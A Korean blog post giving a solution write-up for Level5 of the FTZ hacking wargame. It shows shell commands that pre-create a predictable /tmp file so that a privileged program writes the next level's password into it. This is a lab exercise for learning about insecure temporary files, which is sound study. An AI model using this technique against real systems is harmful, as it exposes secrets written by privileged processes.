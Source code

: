 ```yaml
---
title: "[FTZ] Level5 풀이"
categories:
  - ftz
tags:
  - FTZ
toc: true
toc_sticky: true
toc_label: "Level5 풀이"
toc_icon: "bookmark"
author_profile: true
header:
  teaser: /assets/images/ftz.png
---
```


💡 FTZ Level5 풀이
{: .notice--warning}


# 문제

계정 : level5/what is your name?

**hint**
```
/usr/bin/level5 프로그램은 /tmp 디렉토리에
level5.tmp 라는 이름의 임시파일을 생성한다.

이를 이용하여 level6의 권한을 얻어라.
```

# 풀이

레이스 컨디션을 이용한 문제 같은데, 난이도가 너무 쉬운 문제입니다.

조금 더 어렵게 하려면 level5.tmp 파일이 덮여쓰여지고 삭제까지 되야 생각할 거리가 있는데, 본 문제에서는 먼저 level5.tmp파일을 만들어 놓으면 해당 파일에 데이터만 추가하고 삭제를 하지 않습니다.

```sh
[level5@ftz tmp]$ ls
mysql.sock
[level5@ftz tmp]$ touch level5.tmp
[level5@ftz tmp]$ /usr/bin/level5
[level5@ftz tmp]$ ls
level5.tmp  mysql.sock
[level5@ftz tmp]$ cat level5.tmp
next password : what the hell
```

